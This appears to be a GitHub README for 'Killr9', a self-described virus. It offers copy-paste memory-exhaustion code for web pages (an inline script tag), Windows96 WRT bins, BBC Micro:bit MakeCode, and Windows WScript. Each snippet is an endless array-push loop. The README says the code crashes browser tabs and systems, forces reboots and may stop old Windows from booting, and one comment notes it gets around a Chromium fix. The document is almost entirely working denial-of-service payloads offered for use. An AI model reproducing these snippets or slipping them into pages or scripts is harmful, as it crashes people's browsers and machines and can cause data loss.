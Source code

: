 # Killr9
A virus that will kill virtually anything! We have it available in HTML, JavaScript, Python, MakeCode, TypeScript, Godot, and more!

## Killing Webpages - Inline Script
Paste the JS code inside of a script tag.
```html
<script>
    function ohSnap() {
        var corruptable=[]
        for(var i=0;i<(9999999*999999999999999999999);i++) {
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
            corruptable.push(i);
        }
    }
    
    setInterval(ohSnap) // required to bypass a fix in newer Chromium versions
</script>
```


## Killing a Windows96 instance(WRT Bin)
Create a WRT bin, like this:
```js
//!wrt
function ohSnap() {
    var corruptable=[]
    for(var i=0;i<(9999999*999999999999999999999);i++) {
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
    }
}

setInterval(ohSnap);
```

Executing any WRT binary on Windows 96 with this code will cause the tab to lag and crash.

## Killing the BBC Micro:bit (MakeCode Editor)
Open the makecode editor at https://makecode.microbit.org/, create a project, and paste the typescript in:
```ts
function ohSnap () {
    for (let i = 0; i <= (9999999 * 999999999999999999999) - 1; i++) {
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
        corruptable.push(i)
    }
}
let corruptable: number[] = []
corruptable = []
ohSnap()
```

Flashing this code onto your Micro:bit will cause the RAM to become completely full. This will also cause in error when being ran in the simulator, and in rare instances may completely crash it.

## Killing Windows 98 - Windows 11 (WScript)
Create a new `.js` file with the following contents:
```js
function ohSnap() {
    var corruptable=[]
    if(!corruptable.push) {
        corruptable.push=function(e){
            corruptable[corruptable.length]=e;
            corruptable.length++
        }
    }
    for(var i=0;i<(9999999*999999999999999999999);i++) {
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
        corruptable.push(i);
    }
}

ohSnap()
```

Running this script with WSCRIPT.EXE will not cause immediate system death, but will fill up the RAM and cause the system to lag. Eventually, a force reboot will be required.
In some cases, running this on old versions of Windows may cause the system to not be able to boot up again.
